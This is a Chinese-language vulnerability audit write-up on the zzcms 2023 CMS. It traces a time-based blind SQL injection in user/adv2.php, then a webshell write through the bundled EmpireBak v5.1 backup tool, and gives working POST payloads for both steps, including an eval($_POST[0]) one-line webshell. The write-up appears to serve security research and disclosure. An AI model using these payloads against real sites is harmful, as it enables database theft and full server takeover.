# 招商网管理系统从前台 SQL 注入到 RCE - 先知社区

招商网管理系统从前台 SQL 注入到 RCE

- - -

### 0x00 前言

**产品说明：**  
zzcms 是产品招商型模板程序，可快速搭建产品招商网。例如医药招商，保健品招商，化妆品招商，农资招商，孕婴童招商，酒类副食类等。  
**最新源码下载地址：**  
[http://www.zzcms.net/download/zzcms2023.zip](http://www.zzcms.net/download/zzcms2023.zip)  
**安装要求：**  
Windows 平台——IIS/Apache/Nginx + PHP4/PHP5.2/PHP5.3/PHP7 + MySQL4/5  
Linux/Unix 平台——Apache + PHP4/PHP5/PHP7 + MySQL4/5 (PHP 必须在非安全模式下运行)

### 0x01 软件目录结构

```plain
/install 安装程序目录（安装时必须有可写入权限）
/admin 默认后台管理目录（可任意改名）
/user 注册用户管理程序存放目录
/skin 用户网站模板存放目录;更多用户网站模板可从 zzcms.net 下载
/template 系统模板存放目录;更多系统模板可从 zzcms.net 下载
/inc 系统所用包含文件存放目录
/area 各地区显示文件
/zhaoshang 招商程序文件
/pinpai 品牌
/daili 代理
/zhanhui 展会
/company 企业
/job 招聘
/zixun 资讯
/special 专题
/ask 问答
/zhanting 注册用户展厅页程序
/one 专存放单页面，如公司简介页，友情链接页，帮助页都放在这个目录里了
/ajax ajax 程序处理页面
/reg 用户注册页面
/3 第三方插件存放目录
/3/ckeditor CK 编缉器程序存放目录
/3/alipay 支付宝在线支付系统存放目录
/3/tenpay 财富通在线支付系统存放目录
/3/qq_connect2.0 qq 登录接口文件
/3/ucenter_api discuz 论坛用户同步登录接口文件
/3/kefu 在线客服代码
/3/mobile_msg 第三方手机短信 API
/3/phpexcelreader PHP 读取 excel 文件组件
/cache 缓存文件
/uploadfiles 上传文件存放目录
/daili_excel 要导入的代理信息 excel 表格文件上传目录
/image 程序设计图片，swf 文件存放目录
/js js 文件存放目录
/html 静态页存放目录
/update 版本升级更新时，数据库更新文件临时存放目录（规则文件中指定的排除目录）
```

### 0x02 开始审计

#### SQL 注入

这个项目在 inc/conn.php 文件中定义了数据库操作相关的方法，需要操作数据库的地方都会引入它，例如 ajax/asktitlecheck\_ajax.php。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205171442-ff195a40-c406-1.png)

进入 inc/conn.php 文件里，可以看到引入了挺多文件，其中/inc/global.php 做了一系列安全过滤的操作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205171840-8d200c62-c407-1.png)

进入 inc/global.php 文件里，可以看到$\_COOKIE、$\_POST、$\_GET 都被 addfxg() 方法处理过。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205172243-1df62974-c408-1.png)

进入 inc/function.php 文件里，addfxg() 方法在此定义，可以看到数据会经过 htmlspecialchars 或 addslashes 处理，那么基本上单引号、双引号、反斜杠都不能用了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205172735-cc030ffa-c408-1.png)

根据以上分析，我们在找 SQL 注入点时可以着重关注整型注入。

我在 user/adv2.php 文件的 setAdv($ispay) 方法里找到了整型注入点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205190828-e3bce5f4-c416-1.png)

这个文件引入了 user/check.php 验证用户权限，我们需要先注册一个用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205174528-4b2e9f4a-c40b-1.png)

访问 [http://localhost/reg/userreg.php](http://localhost/reg/userreg.php) 页面注册一个用户，注意用户类型需要选择公司。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205174940-e1894eae-c40b-1.png)

在 user/adv2.php 文件里会判断用户类型，个人用户会让代码执行不到注入点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205175057-0fc3a74c-c40c-1.png)

发布展会信息，往 zzcms\_zhanhui 表里添加数据。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205182105-44fef1c4-c410-1.png)

让$c=1，这样才能继续执行到注入点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205182514-d9e81bda-c410-1.png)

设置自助广告，往 zzcms\_textadv 表里添加数据。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205182803-3e78de7c-c411-1.png)

让!$row=false，同上。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205182917-6a83934a-c411-1.png)

要执行到 setAdv($ispay) 方法需要将$action 变量设置为 modify，$action 变量通过$\_REQUEST\['action'\]获得。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205180314-c6ad696a-c40d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205180511-0cd098ea-c40e-1.png)

构造请求，测试触发时间盲注。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205183945-e099f852-c412-1.gif)

post 数据：`id=1 | (select * from (select if(ascii(substr(database(),1,1))=0x7a,sleep(1),1))A)`

### 文件写入 RCE

通过 SQL 注入我们可以获取到后台管理员的账户密码，也就是有后台管理员权限了。后台的功能点较多，我们可以从后台寻找 RCE 漏洞。

在后台发现使用 EmpireBak v5.1 来备份数据库文件，使用后台管理员的账户密码即可登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205202711-e324953c-c421-1.png)

EmpireBak v5.1 的 3/E\_bak5.1/upload/class/functions.php#Ebak\_DoEbak($add) 可以写入一句话木马 getshell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205203148-8811ad96-c422-1.png)

在 3/E\_bak5.1/upload/phomebak.php 文件里调用了 Ebak\_DoEbak($add) 方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205203427-e69de69a-c422-1.png)

构造请求写入一句话木马 getshell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205203945-a45d0724-c423-1.png)

post 数据：`phome=DoEbak&mydbname=shell&tablename[]=1]=1;eval($_POST[0]);//&filesize=1&baktype=1&bakline=1&baktype=1&mypath=./`

shell 文件会保存在 3/E\_bak5.1/upload/bdata/config.php。

